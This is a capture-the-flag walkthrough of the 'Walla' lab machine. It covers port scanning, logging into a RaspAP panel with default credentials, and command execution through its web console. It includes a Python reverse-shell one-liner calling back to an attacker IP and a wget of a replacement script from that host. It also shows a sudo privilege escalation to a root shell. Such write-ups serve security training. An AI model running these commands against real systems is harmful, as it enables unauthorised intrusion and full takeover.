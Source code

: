 ```yaml
---
description: 12/05/2022
---
```


# Walla (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097cbda176ab9b73c8ef68ab84e9a055
|_SHA-1: 6c4bfee30bd6d9102ef9f81a3a4172d831bdbaac
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
PORT     STATE         SERVICE  VERSION
53/udp   open|filtered domain
67/udp   open|filtered dhcps
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

Notes:

* SSH open on 42042, 422, and 22 is open
* Telnet 23 is open -- Strange
* SMTP 25 is open
* <mark style="color:yellow;">HTTP 8091 is open -- Lighttpd 1.4.53</mark>
  * RaspAP

## Enumeration

### Port 8091 - HTTP (Lighttpd--RaspAP)

Visual:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (2).png" alt=""><figcaption><p>admin:secret (Default Credentials)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (6).png" alt=""><figcaption><p>Discovering Default Credentials</p></figcaption></figure>

* We now have access to the RaspAP login page!

## Exploitation

* [http://192.168.66.97:8091/index.php?page=system\_info#console](http://192.168.66.97:8091/index.php?page=system\_info#console)
* Upon navigating to the following site, you can execute commands in the following window/web shell!!!

{% embed url="https://github.com/gerbsec/CVE-2020-24572-POC" %}
Not needed, but cool
{% endembed %}

Start nc Listener:

```
sudo rlwrap nc -lnvp 42042
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192
.168.49.66",42042));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src="../../../.gitbook/assets/image (13) (6).png" alt=""><figcaption><p>Utilizing exploit to craft us a reverse shell!</p></figcaption></figure>

* Or you could simply use revshells

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (7) (9).png" alt=""><figcaption><p>RaspAP Webshell</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (14) (5).png" alt=""><figcaption><p>Landed as www-data</p></figcaption></figure>

## Privilege Escalation

Sudo -l Enumeration:

<figure><img src="../../../.gitbook/assets/image (2) (2) (3).png" alt=""><figcaption><p>Interesting file</p></figcaption></figure>

### Local enumeration

Linpeas:

```
/etc/mysql/mariadb.cnf


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /etc/aliases.db: Berkeley DB (Hash, version 9, native byte-order)
```

### PrivEsc vector

<mark style="color:yellow;">sudo /usr/bin/python /home/walter/wifi\_reset.py</mark>

Remove wifi\_reset.py:

{% code overflow="wrap" %}
```
rm -f /home/walter/wifi_reset.py
```
{% endcode %}

Replace with wifi\_reset.py:

```
import os

os.system('/bin/bash')
```

Transfer to Victim:

```
cd /home/walter

wget 192.168.49.66/wifi_reset.py
```

Execute Binary:

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

## Proofs

<figure><img src="../../../.gitbook/assets/image (4) (2) (1).png" alt=""><figcaption><p>Root</p></figcaption></figure>

